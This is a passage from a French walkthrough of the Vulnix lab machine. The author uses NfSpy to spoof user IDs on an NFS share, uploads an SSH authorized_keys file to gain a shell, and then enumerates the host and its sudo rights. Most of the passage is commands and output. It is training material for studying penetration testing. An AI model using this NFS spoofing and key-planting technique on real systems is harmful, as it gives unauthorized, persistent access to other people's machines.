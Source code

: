 L'outil de référence pour exploiter du NSF est [Nfspy](https://github.com/bonsaiviking/NfSpy). Il se charge automatiquement de mentir sur les IDs de l'utilisateur. J'uploade ici un fichier *authorized\_keys* qui me permettra de me connecter ensuite avec ma clé SSH :  

```plain
# PYTHONPATH=. ./scripts/nfspysh -o server=192.168.1.54:/home/vulnix
nfspy@192.168.1.54:/home/vulnix:/> ls
/:
040750   2008   2008        4096 2012-09-02 20:25:02 .
100644   2008   2008         220 2012-04-03 17:58:14 .bash_logout
100644   2008   2008         675 2012-04-03 17:58:14 .profile
040750   2008   2008        4096 2012-09-02 20:25:02 ..
100644   2008   2008        3486 2012-04-03 17:58:14 .bashrc
nfspy@192.168.1.54:/home/vulnix:/> mkdir .ssh
nfspy@192.168.1.54:/home/vulnix:/> cd .ssh
nfspy@192.168.1.54:/home/vulnix:/.ssh> put /tmp/authorized_keys
nfspy@192.168.1.54:/home/vulnix:/.ssh> ls
/.ssh:
040755   2008   2008        4096 2014-07-02 21:58:37 .
100644   2008   2008         381 2014-07-02 21:58:37 authorized_keys
040750   2008   2008        4096 2014-07-02 21:56:05 ..
nfspy@192.168.1.54:/home/vulnix:/.ssh> exit
Quitting.
```

```plain
$ ssh vulnix@192.168.1.54
Enter passphrase for key '/home/devloop/.ssh/id_rsa': 
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Wed Jul  2 21:00:17 BST 2014

  System load:  0.0              Processes:           87
  Usage of /:   90.2% of 773MB   Users logged in:     0
  Memory usage: 7%               IP address for eth0: 192.168.1.54
  Swap usage:   0%

  => / is using 90.2% of 773MB

  Graph this data and manage this system at https://landscape.canonical.com/                                                                                                                                   

vulnix@vulnix:~$ id
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
vulnix@vulnix:~$ uname -a
Linux vulnix 3.2.0-29-generic-pae #46-Ubuntu SMP Fri Jul 27 17:25:43 UTC 2012 i686 i686 i386 GNU/Linux
vulnix@vulnix:~$ cat /etc/*release*
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04.1 LTS"
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```
